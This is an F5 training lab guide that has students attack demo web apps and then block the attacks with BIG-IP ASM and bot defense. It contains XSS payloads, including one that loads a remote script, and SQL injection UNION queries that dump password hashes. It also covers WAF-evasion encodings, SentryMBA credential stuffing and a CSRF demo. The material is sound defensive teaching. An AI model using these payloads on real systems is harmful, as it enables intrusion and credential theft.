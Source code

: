 Participant Hands-on Lab Guide

|image0|

    Last Updated: *04.2017*

©2016 F5 Networks, Inc. All rights reserved. F5, F5 Networks, and the F5
logo are trademarks of F5 Networks, Inc. in the U.S. and in certain
other countries. Other F5 trademarks are identified at f5.com.

Any other products, services, or company names referenced herein may be
trademarks of their respective owners with no endorsement or
affiliation, express or implied, claimed by F5.

These training materials and documentation are F5 Confidential
Information and are subject to the F5 Networks Reseller Agreement. You
may not share these training materials and documentation with any third
party without the express written permission of F5.

    \ **Table of Contents**

Lab Environment and Setup 3

Lab 1 – Bot Signatures and Proactive Bot Defense 4

Exercise 1 – Bot Signatures 4

Step 1 – Configure DoS Profile 4

Step 2 – Launch and Observe Simple Bot Attacks 5

Exercise 2 – Custom Bot Signatures 6

Step 1 – Unknown “Bot” Attack 6

Step 2 – Custom Bot Signature 6

Step 3 – Run the Unknown “Bot” Attack Again 7

Exercise 3 – Proactive Bot Defense 8

Step 1 – Enable Proactive Bot Defense 8

Step 2 – Launch and Observe Attack 9

Exercise 4 – Blocking and Validating Suspicious Browsers 10

Step 1 – Edit DoS Profile 10

Step 2 – Launch and observe attack. 11

Exercise 5 – Blocking Credential Stuffing with Proactive Bot Defense 13

Step 1 – Review Sentry MBA Config 13

Step 2 – Launch a Cred Stuffing attack 16

Step 3 – Block SentryMBA with Proactive Bot Defense 19

Lab 2 – Evasion Techniques 21

Exercise 1: <Insert Name here> 21

Step 1 - Burp Suite Proxy 21

Step 2 - Create Policy 21

Step 3 - Determining Cross Site Script (XSS) Vulnerability 22

Step 4 – Testing the XSS through ASM 25

Step 5 – Obfuscation – URL Encoding 26

Step 6 – Obfuscation – String Manipulation 29

Lab 3 - Cross Site Request Forgery Protection 33

Exercise 1 – Review CSRF Attack Page 33

Step 1 – Login 33

Step 2 – Configure CSRF Protection 35

Step 3 – Inspect CSRF Protection 36

Lab 4 - Protecting JSON applications with ASM 39

Exercise 1 – Review JSON App 39

Step 1 – Review JSON POST in Burp Suite 39

Exercise 2 – Manipulate JSON Request data 41

Step 1 – Change credentials 41

Step 2 – SQL Injection 43

Exercise 3 – Blocking malicious JSON with ASM 44

Step 1 – Create and Apply an ASM policy 44

Step 2 – Re-try SQL Injection 45

Exercise 4 – ASM Content Profiles 47

Step 1 – Review JSON Content Profile 47

Step 2 – Enforce signatures and re-try SQLi Attack 48

Exercise 5 – JSON Format Validation 50

Step 1 – Attempt a XSS Attack 50

Lab 5 - Websocket Protection 51

Exercise 1 – Review TaxiApp and F5 Config 51

Step 1 – Associate WebSocket Profile 51

Step 2 – Review TaxiApp 52

Step 3 – Attack TaxiApp 53

Exercise 2 – WebSocket Protection 54

Step 1 – Create ASM WebSocket Policy 54

Lab 6 – ASM Learning (Optional Exercise) 57

Exercise 1 – Policy Creation 57

Step 1: Create policy for Hackazon 57

Step 2: Review the Hackazon Virtual Security Tab config 57

Step 3: Create and Configure Learning Suggestions 58

Exercise 2: Server Technologies 61

Step 1: Review ASM Learning 61

Step 2: Review Learning Suggestions 63

Lab Environment and Setup
=========================

    **IMPORTANT: **

    **Login to the Windows RDP Session as admin/admin**

    **When you are completing these exercises, to ensure consistent lab
    behavior:**

    **- Use Chrome to manage the BIG-IP **

    **- Use Firefox for all application interactions.**

Lab 1 – Bot Signatures and Proactive Bot Defense
================================================

The purpose of this lab is to help you understand the bot detection and
mitigation features in Application Layer DoS Profiles. Also, to see the
new bot logging features in 13.0. You will detect and block bots with
increasing sophistication. You will also Use SentryMBA to perform a
credential stuffing attack and then block it.

Exercise 1 – Bot Signatures
---------------------------

Step 1 – Configure DoS Profile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Create a DOS Profile** so that only Bot Signatures are enabled. Ensure
that ALL other features are disabled. Associate this profile to the DVWA
Protected VIP (10.1.10.56).

(If the Bots-Lab profile already exists, delete it.)

|image1|

Step 2 – Launch and Observe Simple Bot Attacks
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. On the Windows client open a command line and change to the
   **c:\\xampp\\apache\\bin** directory

|image2|

1. Use Apache Bench to “attack” the website. Run the following command:

ab -c 10 -n 10 -r http://10.1.10.56/

1. 3. On the BIGIP, go to Security >> Event Logs >> Bot Defense >>
   Requests.

Note: When viewing the Bot Defense logs you will need to scroll to the
right to see some of the fields shown in the screenshots.

|image3|

In the Bot Defense logs we can see exactly WHO was blocked, HOW they
were blocked, and WHY they were blocked. This level of logging was only
available via iRules in previous versions and gives much greater
visibility into Bot Defense mitigations.

This is a “simple bot” and the DoS Profile was able to identify and
block the bot based on its signature, “ab” in the User-Agent HTTP
header. In the next exercise, we will change the User-Agent header and
see if the DoS Profile can block it.

Exercise 2 – Custom Bot Signatures
----------------------------------

Step 1 – Unknown “Bot” Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. From the Windows command line, run the following command:

ab -c 100 -n 10 -r -H "User-Agent: kalakalazoomzoom" http://10.1.10.56/

Note: Make sure to copy the entire command and issue all on one line.

1. Watch the Bot Defense Logs.

Step 2 – Custom Bot Signature
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. On the BIGIP, go to **Security ›› Options ›› DOS Protection ›› Bot
   Signatures** List

2. Click **Create**. On the Create New Bot Signature page, create a new
   bot signature with the following settings:

    **Name:** kalakalazoomzoom

    **Category:** DOS Tool

    **User-agent: contains:** kalakalazoomzoom

    |image4|

    (This signature may already exists from lab setup).

Step 3 – Run the Unknown “Bot” Attack Again
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. From the Windows command line, run the following command:

ab -c 100 -n 1000 -r -H "User-Agent: kalakalazoomzoom"
http://10.1.10.56/

Make sure to copy the entire command and issue all on one line.

1. Return to the Bot Defense logs. Is the attack blocked this time?

|image5|

1. We can see that the “bot” was blocked because it matched the new
   custom signature.

Exercise 3 – Proactive Bot Defense
----------------------------------

Step 1 – Enable Proactive Bot Defense
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. **On the BIGIP**, go to **Security ›› DOS Protection ›› DOS
   Profiles.** Edit your DoS Profile to enable Proactive Bot Defense.
   Set the Operation Mode to **Always** and clear the **Block Suspicious
   Browsers** box. (We will use that in the next exercise.)

|image6|

Step 2 – Launch and Observe Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. **Run the following command** from the Windows command line:

ab -c 100 -n 10 -r -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64;
rv:40.0) Gecko/20100101 Firefox/40.1" http://10.1.10.56/

1. **Review the Bot Defense logs**. Which mitigation is being used?

    |image7|

    The DoS Profile responded to the “bot” with a JS challenge. Note the
    “Reason” field. This field gives descriptive explanation for why a
    challenge was (or was not) possible. Proactive Bot Defense stops
    simple bots, even if they are trying to impersonate legitimate
    browsers with a valid User-Agent header, by responding with a
    JavaScript challenge.

**
**

Exercise 4 – Blocking and Validating Suspicious Browsers
--------------------------------------------------------

Step 1 – Edit DoS Profile
~~~~~~~~~~~~~~~~~~~~~~~~~

1. **On the BIGIP**, go to **Security ›› DOS Protection ›› DOS
   Profiles.** Edit your DoS profile to enable Block Suspicious Browsers
   and CAPTCHA Challenge. Click **Update**.

    |image8|

Step 2 – Launch and observe attack.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You will use your browser to act as a JS-enabled bot that is
impersonating a legitimate browser.

1. **Open a new Private Window in Firefox.** From the new User-Agent
   Switcher tool in the top right corner of the Firefox menu choose
   Safari and OS X.

    |image9|

    This will force Firefox to send a User-Agent header that looks like
    it is coming from Safari on an Apple computer even though we are
    actually using Firefox on a Windows computer.

1. **In the browser address bar enter** http://10.1.10.56/ to try to
   access the DVWA site. You will be presented with a CAPTCHA Challenge.
   Fill out the CAPTCHA and click **Submit**. You are allowed through to
   the Auction Website.

    |image10|

1. Look at the Bot Defense logs.

    |image11|

    Proactive Bot Defense initially responded with the JS Challenge
    which the browser (and any JS-enabled bot) was able to pass. The DOS
    Profile then sent the Client Capabilities challenge to validate the
    browser was really Safari running on Mac OS X (since this is what
    the user-agent header indicated). The response received by the BIGIP
    is given a score.

    **Client Capabilities Scores**

    **0 – 59** = Browser = **Allowed**

    **60 – 99** = Suspicious = **CAPTCHA Challenge**

    **100** = BOT = **Blocked**

    The browser received too high of a score and so was presented with
    the CAPTCHA Challenge.

    The CAPTCHA Challenge will block even JS-enabled bots (AKA headless
    browsers) but still let legitimate human users access the site.
    Additionally, the CAPTCHA will only be presented if/when a browser
    does not pass the capabilities challenge. Most browsers will pass
    this challenge with a low enough score that most users will NOT even
    see the CAPTCHA.

Exercise 5 – Blocking Credential Stuffing with Proactive Bot Defense
--------------------------------------------------------------------

Step 1 – Review Sentry MBA Config
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    SentryMBA is a tool that “crackers” use to try to replay stolen
    credentials against login pages that they want to compromise. As you
    will see from this lab it is highly configurable and it is widely
    used on the internet for credential stuffing attacks.

1. **On the Windows client**, open the Sentry MBA tool by clicking the
   blue “S” logo in the taskbar.

    |image12|

    SentryMBA is already configured to attack the Hackazon login page.
    We will take a look at the tool settings to see how it is
    configured.

1. For this lab, SentryMBA is configured to use the Burp Proxy. You will
   learn more about Burp Proxy in another lab. For now, open Burp proxy
   and ensure that Intercept is off.

   |image13|

2. From the Site dropdown box, make sure that “hackazon.f5demo.com” is
   selected.

    |image14|

1. From the Settings section of the left menu, select HTTP Header. Then
   click on the “Magic Wand” icon in the lower right corner.

    |image15|

1. This will open the main configuration wizard page.

   -  Review the configuration and mouse over some of the fields to see
      the context-specific help. DO NOT change any settings.

   -  Close the page with the X in the top right corner.

    |image16|

1. Now Click on Lists in the left menu and select Word Lists.

    Here you can see the username:password credentials that will be
    “stuffed” into the DVWA login page. In practice, these might be tens
    of thousands of stolen credentials from breaches like the Sony,
    Target, Home Depot, or Yahoo breaches.

    |image17|

1. There may already be a DoS Profile associated with the Hackazon VIP.
   If so, remove it from the VIP.

Step 2 – Launch a Cred Stuffing attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Launch the attack by clicking the Go!! Button in the top left corner.
   In the pop-up, check the **Reset WordList** box (if available) and
   click **Start Bruteforcer** **Engine** and then click Yes in the
   proxy warning window.

|image18|

|image19|

1. The attack will start and you will quickly see in the Progression tab
   that a login was successful using the admin:admin and user1:user1
   credentials from the wordlist.

|image20|

1. Once you see the successful login click Abort in the top left. Then
   expand the History section of the left menu and click History.

    |image21|

1. In the History list right click on the successful login and choose
   **Launch in Browser**.

You can see how easy SentryMBA makes it to use, find, and exploit stolen
credentials.

    |image22|

1. In preparation for the next step, clear the successful logins from
   the history by click the red X in the bottom right and deleting
   **Delete Selected Hits**.

    |image23|

Step 3 – Block SentryMBA with Proactive Bot Defense
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We will now run apply a Proactive Bot Defense policy to the Hackazon
virtual to see if Proactive Bot Defense can stop this sophisticated
tool.

1. In Chrome go to the Security tab for the Hackazon\_protected\_virtual
   and assign the Hackazon-PBD Dos profile.

   |image24|

2. In SentryMBA, ensure the Site dropdown is set to
   **http://hackazon.f5demo.com**.

    |image25|

1. Click Go!! To start the attack and watch the Progession window.

2. In the F5 WebUI go to the Bot Defense logs.

    |image26|

Lab 2 – Evasion Techniques
==========================

The purpose of this lab is to introduce common penetration testing
techniques and show how ASM signatures, normalization engine, and
protocol validation handle evasion techniques. You will also use Burp
Suite to view, manipulate, and replay requests and attacks.

Exercise 1: Setup and Determining Vulnerability
-----------------------------------------------

Step 1 - Burp Suite Proxy
~~~~~~~~~~~~~~~~~~~~~~~~~

1. View Proxy tab and settings

2. Ensure that Intercept is OFF

|image27|\ Step 2 - Create Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    Use the following settings:

1. Advanced View

2. Name: DVWA-Evasion

3. Policy Template: Comprehensive

4. Virtual Server: DVWA\_protected

5. Lang: utf-8

6. Enforcement Readiness: 0 days

Step 3 - Determining Cross Site Script (XSS) Vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox browse to http://unprotected.f5demo.com/

   a. Login as admin/password

   b. Click on XSS Reflected in Left side menu

   c. |image28|

2. Enter Basic XSS Locator

   a. In the “What is your name?” field enter your name. Note that the
      name you entered is shown in the response. This is known as
      “reflection”; user input is shown, or reflected, in the response.

   b. Now enter this common XSS string that is used to determine if a
      site is vulnerable to XSS:

    '';!--"<F5ROCKS>=&{()}

    | **'';!--"<XSS>=&{()}**
    | This is a common string used to test what, if any, filters and/or
      encoding are being used on user input. Typically, the source of
      the page after this injection will contain either &lt;XSS or <XSS.
      If the second is found, the application is most likely not
      filtering user input (as it allowed the addition of an arbitrary
      tag) and is likely vulnerable to XSS.

a. Note that the visible response does not reflect the string “<F5ROCKS”
   and does not APPEAR to show vulnerability. But let’s view the page
   source to be sure.

   |image29|

b. Right click on the webpage and choose View Page Source.

c. On the view source tab, press ctrl+F to open the inline search bar.
   Search for “F5ROCKS”.

    |image30|

a. The presence of “<F5ROCKS” in the page source is an indicator that
   the page is not filtering user input and is likely vulnerable to XSS.

1. Try these other common XSS locator strings and note the results.
   These XSS strings are used by Pen Testers to determine if a given
   application is susceptible to XSS.

    **';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
    alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
    ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>**

    This is actually a combination of several injection attempts:

    **The First Injection**

    ';alert(String.fromCharCode(88,83,83))//

    This injection attempts to terminate a JavaScript string literal
    (using '), then terminate the statement (with ;) and makes a call to
    alert(String.fromCharCode(88,83,83)) which will cause a popup box
    containing "XSS". The following // is an attempt to "comment out"
    the rest of the statement, so that a syntax error will not occur and
    the script will execute.

    **The Second Injection**

    ";alert(String.fromCharCode(88,83,83))//

    **Like the first injection, but it uses " in an attempt to terminate
    a JavaScript string literal.**

    **The Third Injection**

    --></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

    This attempts to do the following things:

-  Terminate an HTML (or XML) comment (with -->)

-  Terminate an existing <SCRIPT> tag using </SCRIPT>

-  This is done to prevent the injected script causing a syntax error,
   which would prevent the injected script from executing.

-  Terminate an HTML attribute and tag, using ">

-  Terminate an HTML attribute and tag, using '>

-  Inject JavaScript using
   <SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

    **<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>**

    This is a standard JavaScript injection that is calling a remote .js
    file.

Exercise 2: Testing ASM with Evasion Techniques
-----------------------------------------------

Step 1 – Testing the XSS through ASM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox browse to http://protected.f5demo.com

   a. Login as admin/password

   b. Click on XSS Reflected in Left side menu

2. Enter the XSS Locator string in the “What’s your name?” field and
   click Submit:

    ;alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
    alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
    ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

1. In Chrome, review the ASM logs for this request. |image31|

2. Enter the remote xss.js script and click submit:

    <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

1. Review the ASM logs.

    |image32|

Step 2 – Obfuscation – URL Encoding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    One form of obfuscation is encoding the attack to “hide” it from
    protections like IPS and WAF. In this step we will try URL-encoding.

1. Enable intercept on Burp Proxy, by selecting the Proxy tab and
   clicking the “Intercept is off” button. It should now say “Intercept
   is on.” Requests from FF will now be held in Burp for review and
   possible manipulation.

    |image33|

1. In Firefox submit the remote xss.js script again.

    <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

1. Manipulate the request in Burp Proxy.

   a. In the Burp Proxy Request window select entire parameter value,
      right-click, and select Send to Decoder

    |image34|

a. In Decoder tab, from right hand menu select Encode as… URL

    |image35|

a. Select and copy the URL-encoded string (You will need to use Ctrl+C
   to copy the string)

    |image36|

a. Return to the Proxy tab, select the entire parameter value and
   replace it with the copied URL-encoded string

    |image37|

a. Click forward. (You may need to click forward a few more times if
   subsequent requests are generated to load this page).

1. View the DVWA page in FF to see if the XSS was successful.

2. This same obfuscation technique could be accomplished without Burp by
   simply editing the query string parameter value directly in the
   browser address bar. Try it.

3. Review the ASM logs.

Step 3 – Obfuscation – String Manipulation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    Another form of obfuscation is string manipulation. In this
    exercise, we will try manipulating common XSS and SQLi attack
    strings to evade signature-based detections.

1. **Null character insertion**

   a. Ensure Burp intercept is on.

   b. | Send the XSS script again.
      | <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

   c. In Burp Intercept, insert a URL-encoded null character (%00) in
      the middle of the beginning and ending script tags.

|image38|

1. **SQLi Always True
   **\ You should be familiar with the common “OR 1=1” SQLi injection
   attack. This is a common attack that attempts to create an “always
   true” condition that will cause the database to return more rows than
   the application intended.

   a. Ensure Burp Intercept is turned off

   b. In Firefox go to the SQLi Injection page.

   c. | Enter the following string in the User ID field and click
        Submit.
      | ' OR 1=1#

   d. Review the ASM Request log:

      i.  What signatures fired for this request?

      ii. Note each of the Signature IDs that fired. There may be more
          than one.

    |image39|

a. | Let’s try a less obvious “always true” string and see if ASM
     catches it. In the User ID field enter the following string and
     click Submit.
   | ' OR ASCII('\*')>'40
   | This is essentially comparing the ASCII representation of the
     asterisk (\*) character (which is 42) with the decimal number 40.
     Note we used a greater than comparison rather than an equality
     comparison.

b. Review the ASM Request log

   i.   What signatures fired for this request?

   ii.  Note the Signature IDs that fired. Are they the same as the
        previous request?

   iii. What does this tell you about ASMs signatures and normalization
        engine?

1. **SQLi Union Select
   **\ In this exercise we will try a more sinister Union Select command
   that returns all of the usernames and their hashed passwords. We will
   then try to manipulate the command to evade signature detection.

a. Ensure Burp Proxy is disabled.

b. In Firefox, return to the DVWA SQL Injection page.

c. In the User ID field enter the following string and click Submit:

' and 1=0 union select null,
concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from users #

    **(If the User ID field is a dropdown box you will need to Click on
    “DVWA Security” and change the Security to Low.)**

|image40|

    You can see that all user names and their hashed passwords are
    returned.

a. Review the ASM Request Log.

   a. What signatures fired?

   b. Note the Signature IDs that were matched. There may be more than
      one.

b. | Return to DVWA in Firefox and enter the following string and click
     Submit:
   | ' and 1=0 un/\*\*/ion/\*\*/sel/\*\*/ect null,
     concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from
     users #

    This string is trying to hide the union select command by inserting
    SQL comments between and in the middle of the words.

a. Review the ASM Request Log.

   a. What signatures fired?

   b. Note the Signature IDs that were matched. There may be more than
      one.

   c. How do these signatures compare to those matches in the previous
      request?

b. | Return to DVWA in Firefox and enter the following string and click
     Submit:
   | ' and 1=0 REVERSE(noinu) REVERSE(tceles) null,
     concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from
     users #

    This string is trying to hide the union select command by using the
    SQL REVERSE function.

a. Review the ASM Request Log.

   a. What signatures fired?

   b. Note the Signature IDs that were matched. There may be more than
      one.

   c. How do these signatures compare to those matches in the previous
      request?

Lab 3 - Cross Site Request Forgery Protection
=============================================

The purpose of this lab is to show in detail how ASM mitigates CSRF
attacks. You will perform a CSRF attack and compare how requests and
responses differ with and without ASM protection.

Exercise 1 – Review CSRF Attack Page
------------------------------------

Step 1 – Login
~~~~~~~~~~~~~~

1. Ensure that Burp Proxy is running and Intercept is off.

2. In Firefox, login to http://unprotected.f5demo.com as admin/password.

3. In another Firefox tab, browse to the attacker page at
   http://www.badkitties.com. Click on the word Demo to open the attack
   page.

|image41|\ |image42|

    This is a (ridiculously) simple webpage that has two links, Good
    Kitty and Bad Kitty. Bad Kitty is a CSRF link to the unprotected
    DVWA URL. Good Kitty is a CSRF link to the protected DVWA URL.

    This is intended to mimic a real-word malicious page/link that sends
    a request to another URL where the user MAY be authenticated,
    executing an action the user did not intend; a CSRF attack.

1. Click on the Bad Kitty link.

2. In the DVWA browser tab, logout and then try to log back in as
   admin/admin.

3. On the Attack page mouse over the Bad Kitty link and see if you can
   tell to what the admin password was changed.

4. Login as admin and change the password back to “admin”.

Step 2 – Configure CSRF Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Chrome, edit the DVWA-Evasion ASM policy to enable CSRF protection
   for the DVWA Change Password page.

    |image43|

1. Change the DVWA-Evasion policy to Blocking mode.

2. In Firefox, login to http://protected.f5demo.com as admin/admin.

3. Click on the Bad Kitty link.

    |image44|

In the next step, we will look at the differences between the protected
and unprotected Change Password pages.

Step 3 – Inspect CSRF Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox, open two tabs and login to both the protected and
   unprotected DVWA sites as admin/admin. Browse to the Change Password
   page in each window by clicking on the CSRF link in the right-hand
   menu.

2. Right click on the Change button and choose Inspect Element source.

    |image45|

1. Do the same to inspect the elements for the protected DVWA page.

    |image46|

    Note the Cross Site Request Token (csrt) injected into the page by
    ASM.

1. In the developer tools window, change to the Network tab and click
   the trash can icon to delete any requests that are already showing.

    |image47|

1. Enter “password” into the password fields to change the admin
   password. Click Change.

2. In the developer tools window click on the first GET request and on
   the right select the Params tab.

    |image48|

1. Login and open this same page in Chrome. Inspect the DOM. And note
   the CSRT value.

    |image49|

Lab 4 - Protecting JSON applications with ASM
=============================================

The purpose of this lab is to show ASM’s ability to parse and protect
JSON data.

Exercise 1 – Review JSON App
----------------------------

Step 1 – Review JSON POST in Burp Suite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Open Firefox and Burp. In Burp, go to the Proxy tab and turn
   Intercept off.

    |image50|

1. In Firefox browse to http://simplestore.f5demo.com and click on the
   Login tab.

    |image51|

    We will now use Burp to intercept, view, and manipulate the POSTs to
    the login page.

1. Go to Burp and enable intercept. Then try to login to the Simple
   Store app in Firefox as user/user. This request will be intercepted
   by Burp. Return to the Burp window and view the request.

    |image52|

    You should notice that:

-  POST data is not in typical key/value pairs. The POST data is in JSON
   format.

-  The Content-Type “application/json”.

1. Click Forward to forward the request on to the site. Return to
   Firefox to see if you were authenticated.

Exercise 2 – Manipulate JSON Request data
-----------------------------------------

Step 1 – Change credentials
~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox try to login again as user/user. Return to Burp Intercept
   and right click on the request and choose Send to Repeater. Then
   click on the Repeater tab.

    |image53|

In Burp Repeater we can manipulate and resend this request many times
and see the responses.

1. Change the username and password JSON parameter values to test/test.
   Click Go to send the request. You should see from the response that
   we successfully logged in with these credentials.

    |image54|

Step 2 – SQL Injection
~~~~~~~~~~~~~~~~~~~~~~

1. In Burp Repeater, change the username parameter value to: **‘ OR
   1=1#**. Then click Go to send the request.

|image55|

    From looking at the response it does not appear that this page is
    susceptible to this specific SQLi attack. But the application did
    receive and try to process the JSON parameters. We could continue to
    try various attacks against this and other pages in this web
    application.

    A WAF will not be able to apply signatures to these parameter names
    and values and protect this application unless it is able to
    properly parse the JSON format and differentiate between the
    parameter name and the parameter value.

    In the next exercise, we will apply an ASM policy that is able to
    parse these JSON parameters and protect this application.

Exercise 3 – Blocking malicious JSON with ASM
---------------------------------------------

Step 1 – Create and Apply an ASM policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Create an ASM policy with the following settings:

|image56|

The ASM policy is now applied to the JSON virtual. Note that we did NOT
make any JSON-specific changes to the policy.

Step 2 – Re-try SQL Injection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Burp Repeater, send the SQLi request again. Look at the response.

    |image57|

1. In The F5 WebUI, look at the ASM Request Log. (Be sure to REMOVE the
   filter for illegal requests.)

    |image58|

    ASM was able to parse the JSON parameters and identify the request
    as malicious. However, it did not block the request because the
    signatures are in staging. In the next exercise will will look at
    why and how ASM was able to parse the JSON parameters and then
    enforce the signature(s) to block this request.

Exercise 4 – ASM Content Profiles
---------------------------------

Step 1 – Review JSON Content Profile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. **On the BIGIP**, go to **Security ›› Application Security ›› Content
   Profiles ›› JSON Profiles.** Click on the Default Profile. Here you
   can see that there is a Default JSON profile that allows ASM to
   validate JSON format and check the parameter names and values against
   signatures.

    |image59|

    |image60|

Step 2 – Enforce signatures and re-try SQLi Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In the F5 WebUI, go to **Application Security ›› Policy Building ››
   Traffic Learning**.

2. In the **Enforcement Readiness Summary** section, click on the number
   indicating the number of signatures that have suggestions but are not
   enforced.

    |image61|

1. On the **Attack Signatures** page, select all three signatures and
   click Enforce. Click Apply Policy to apply these changes.

    |image62|

1. Return to Burp Repeater and resend the SQLi attack by clicking Go.
   Note the response. Was the request blocked?

    |image63|

1. On the F5 WebUI, return to the ASM Request Log and view this request.
   What indicators are there that the request was blocked?

    |image64|

1. Clear the Request Log.

Exercise 5 – JSON Format Validation
-----------------------------------

Step 1 – Attempt a XSS Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Burp Repeater, enter the following XSS attack as the username
   parameter value and click Go:

<script>window.alert("You have been hacked!!!");</script>

    Was the Request blocked?

|image65|

1. Review this request in the ASM Request log. Why was this request
   blocked? Besides the XSS signatures, what other violation(s) fired?

|image66|

    We can see that not only were the XSS signatures were matched but
    also that ASM is validating correct JSON formatting. This a
    “positive security model” function would help catch zero-day or
    obfuscated attacks that may NOT trigger a signature.

Lab 5 - Websocket Protection
============================

The purpose of this lab is to show the ability of ASM to support, parse,
and protect applications that use WebSockets to transmit data.

Exercise 1 – Review TaxiApp and F5 Config
-----------------------------------------

Step 1 – Associate WebSocket Profile
